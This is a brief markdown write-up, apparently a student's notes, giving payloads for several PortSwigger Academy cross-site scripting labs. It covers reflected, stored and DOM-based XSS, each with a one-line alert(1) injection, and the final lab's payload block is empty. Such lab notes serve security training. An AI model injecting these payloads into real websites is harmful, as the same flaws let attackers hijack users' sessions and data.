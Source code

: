 # XSS 
- Author: [Mateusz Głuchowski](https://github.com/hue1337)
- Site: [PortSwigger Academy](https://portswigger.net)

# Lab: Reflected XSS into HTML context with nothing encoded

1. Payload:
    ```html
    <script>alert(1);</script>
    ```

# Lab: Stored XSS into HTML context with nothing encoded

1. Payload:
    ```html
    </p><script>alert(1);</script>
    ```

# Lab: DOM XSS in document.write sink using source `location.search`:

1. Payload:
    ```html
    "><svg onload=alert(1)>
    ```

# Lab: DOM XSS in innerHTML sink using source location.search
1. Payload:
    ```html
    </span><svg onload=alert(1)>

    or 

    <img src=1 onerror=alert(1)>
    ```

# Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

1. Payload:

```html

```